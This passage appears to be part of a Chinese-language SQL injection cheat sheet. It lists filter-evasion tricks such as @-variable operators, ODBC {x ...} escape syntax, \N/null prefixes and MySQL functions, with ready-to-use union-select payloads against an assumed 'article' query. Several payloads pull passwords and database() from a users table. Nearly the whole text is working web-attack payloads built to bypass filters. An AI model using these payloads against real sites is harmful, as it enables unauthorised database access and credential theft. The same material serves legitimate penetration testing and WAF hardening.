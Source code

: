 

(5)x@ 

假设SQL语句为：select * from article where id = '2' 

`%@  *@  -@  +@  /@  <@  =@  >@ ^@ |@ %26@ -@'' -@"" -@@new `

```
id='  -@ union select 1,2 ,3 %23

id='  %26@ union select 1,2 ,3 %23

id='  -@'' union select 1,2 ,3 %23

id=' -@@new  union select 1,2 ,3 %23
```


(6){x key}

假设SQL语句为：select * from article where id = '2'

```
id=' and {x -2} union select 1,2,3 %23

id='  ||  !{`x` -2} union select 1,2,3 %23

id='  ||  !{`x` -@} union select 1,2,3 %23

id='  and {x  id} union select 1,2,3 %23

id='  and {x  id} union select 1,2,3 %23

id=' and {id (select/**/--0)}union select 1,2,3 %23
```


(7) 其他
```
\Nunion select 1,2,3 %23

null union select 1,2,3 %23
```


(8)函数

```
and  MD5('a') union select 1,password,database() from users--+

 and binary @ union select 1,password,3 from users--+

and  ST_X(Point(1, 2)) union select 1,password,database() from users--+
```
更多[内置函数](https://dev.mysql.com/doc/refman/5.6/en/sql-function-reference.html)查看



##### 位置二
